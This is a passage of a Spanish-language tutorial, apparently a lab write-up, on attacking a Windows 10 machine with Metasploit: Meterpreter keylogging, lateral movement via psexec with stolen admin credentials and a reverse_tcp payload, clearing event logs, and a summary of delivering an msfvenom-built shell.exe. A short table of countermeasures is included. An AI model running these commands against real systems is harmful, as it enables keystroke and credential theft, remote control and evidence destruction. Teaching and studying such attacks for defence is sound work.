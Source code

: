 
#### 6️⃣ Keylogger (Registro de teclas)

```bash
keyscan_start
keyscan_dump
```

Captura lo que el usuario escriba en su teclado.

---

#### 7️⃣ Movimiento lateral (con credenciales)

Si tienes las credenciales de un admin de red, puedes usar:

```bash
use exploit/windows/smb/psexec
set RHOSTS 192.168.100.3
set SMBUser administrador
set SMBPass laContraseña123
set payload windows/meterpreter/reverse_tcp
run
```

---

#### 8️⃣ Limpieza de huellas

```bash
clearev
```

Limpia logs del visor de eventos.

---

### 🛡️ ¿Cómo proteger un Windows real?

| Riesgo                   | Contramedida                                             |
| ------------------------ | -------------------------------------------------------- |
| Payload ejecutado        | Antivirus, UAC, no ejecutar archivos desconocidos        |
| Mimikatz / hashdump      | Activar LSA Protection, usar Windows Hello               |
| Persistencia             | Monitorizar claves de registro con Sysinternals Autoruns |
| Movimiento lateral (SMB) | Desactivar SMBv1, aplicar parches                        |
| Keylogging y webcam      | Control de dispositivos y alertas                        |

---

### ✅ RESUMEN PASO A PASO

1. **Kali** crea `shell.exe` con `msfvenom`.
2. Se sube a **Windows 10 víctima**.
3. Se lanza el handler en **Metasploit**.
4. Víctima ejecuta el archivo y se abre **Meterpreter**.
5. Se extrae información, contraseñas, se gana persistencia.

---